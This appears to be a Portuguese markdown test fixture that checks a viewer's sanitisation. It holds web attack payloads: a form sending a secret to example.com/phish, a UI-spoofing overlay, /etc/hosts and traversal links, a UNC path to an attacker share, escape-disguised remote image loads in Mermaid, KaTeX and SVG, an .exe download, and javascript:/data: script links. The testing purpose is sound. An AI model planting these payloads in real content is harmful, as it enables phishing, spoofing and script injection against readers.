


# Documento de ataque (prova da revisão 2026-10)

Cada seção exercita uma superfície. Nada aqui deve sair da máquina nem navegar o app.

## 1. Formulário para fora (navegação)

<form action="https://example.com/phish" method="get"><input name="q" value="segredo"><button type="submit">Enviar</button></form>

## 2. Mapa de imagem com link (navegação sem `<a>`)


<map name="m"><area shape="rect" coords="0,0,240,60" href="https://example.com/area"></map>

## 3. Sobreposição fixa (spoof da interface)

<div style="position:fixed;top:0;left:0;right:0;height:38px;background:#9e1327;color:#fff;z-index:9999;padding:8px">BARRA FALSA sobre a barra do app</div>

## 4. Caminho absoluto e `..` em link e imagem

- [hosts do sistema](/etc/hosts)
- [md fora da pasta](../../docs/exemplo.md)
- [[../../docs/exemplo]]
- [UNC no Windows](\\\\attacker\\share\\x.md)


## 5. Mermaid: CSS do tema e nó com imagem



```mermaid
flowchart LR
  A@{ img: "https://example.com/mermaid-img.png", label: "img", pos: "b", w: 60, h: 60 }
  A --> B[Fim]
```


```mermaid
flowchart LR
  C@{ "img": "https://example.com/mermaid-quotedkey.png", label: "c", w: 40, h: 40 }
  D@{ shape: "rect", 'img': 'https://example.com/mermaid-singlequote.png' }
  E@{ img: "https://example.com/mermaid-brace}.png", label: "}", w: 40, h: 40 }
  F@{ label: "}", img: "https://example.com/mermaid-bracefirst.png", w: 40, h: 40 }
  G@{ img: ["https://example.com/mermaid-lista.png"], label: "lista", w: 40, h: 40 }
  E@{ img: "\x68ttps://example.com/mermaid-yamlesc.png" }
  F@{ img: "https\u003a//example.com/mermaid-u003a.png" }
  C --> D --> E --> F
```



```mermaid
flowchart LR
  G[g] --> H[h]
  classDef x fill:url(https://example.com/mermaid-classdef.png)
  class G x
  style H fill:url(https://example.com/mermaid-style.png)
```

## 6. KaTeX: href e includegraphics

$\href{https://example.com/katex}{clique}$ e $\includegraphics[height=1em]{https://example.com/katex.png}$

## 7. SVG cru com href e animação

<svg width="40" height="40"><image href="https://example.com/svg-image.png" width="40" height="40"/><use href="https://example.com/svg-use.svg#x"/><set attributeName="href" to="https://example.com/set.png"/></svg>

## 8. Vídeo, input image, link download

<video src="https://example.com/v.mp4" poster="https://example.com/p.jpg" autoplay></video>
<input type="image" src="https://example.com/i.png" alt="input">
<a href="https://example.com/x.exe" download>baixar</a>

## 9. javascript: e data: em link

<a href="javascript:alert(1)">js</a> · <a href="data:text/html,<script>alert(1)</script>">data</a> · [js2](javascript:alert(2))
